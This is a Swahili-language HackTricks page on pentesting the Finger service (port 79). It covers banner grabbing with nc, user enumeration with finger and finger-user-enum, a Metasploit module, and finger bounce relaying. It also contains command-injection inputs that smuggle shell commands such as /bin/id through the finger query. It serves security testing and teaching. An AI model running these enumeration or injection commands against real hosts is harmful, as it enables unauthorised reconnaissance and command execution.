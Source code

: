 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Mpangilio wa haraka wa tathmini ya udhaifu & upimaji wa penya**. Fanya pentest kamili kutoka mahali popote na zana 20+ & vipengele vinavyotoka kwenye recon hadi ripoti. Hatubadilishi wapimaji wa penya - tunatengeneza zana maalum, moduli za kugundua & kutumia ili kuwapa muda wa kuchimba zaidi, kufungua shells, na kufurahia.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Taarifa za Msingi**

Programu/huduma ya **Finger** inatumika kupata maelezo kuhusu watumiaji wa kompyuta. Kawaida, taarifa zinazotolewa zinajumuisha **jina la kuingia la mtumiaji, jina kamili**, na, katika baadhi ya matukio, maelezo ya ziada. Maelezo haya ya ziada yanaweza kujumuisha eneo la ofisi na nambari ya simu (ikiwa inapatikana), wakati mtumiaji alipoingia, kipindi cha kutokuwa na shughuli (wakati wa kupumzika), tukio la mwisho ambalo barua pepe ilisomwa na mtumiaji, na maudhui ya mipango na faili za mradi za mtumiaji.

**Bandari ya kawaida:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Uhesabu**

### **Kuchukua Bango/Kuunganisha Msingi**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Uainishaji wa watumiaji**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Mbadala unaweza kutumia **finger-user-enum** kutoka [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), baadhi ya mifano:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap tekeleza script kwa kutumia scripts za default**

### Metasploit inatumia hila zaidi kuliko Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Utekelezaji wa amri
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Tumia mfumo kama relay ya finger](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Mipangilio inayopatikana mara moja kwa ajili ya tathmini ya udhaifu & upimaji wa uvamizi**. Fanya upimaji kamili wa pentest kutoka mahali popote kwa zana na vipengele zaidi ya 20 vinavyotoka kwenye recon hadi ripoti. Hatubadilishi wapimaji wa pentest - tunakuza zana maalum, moduli za kugundua na kutumia ili kuwapa muda wa kuchimba zaidi, kufungua shells, na kufurahia.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za uvamizi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
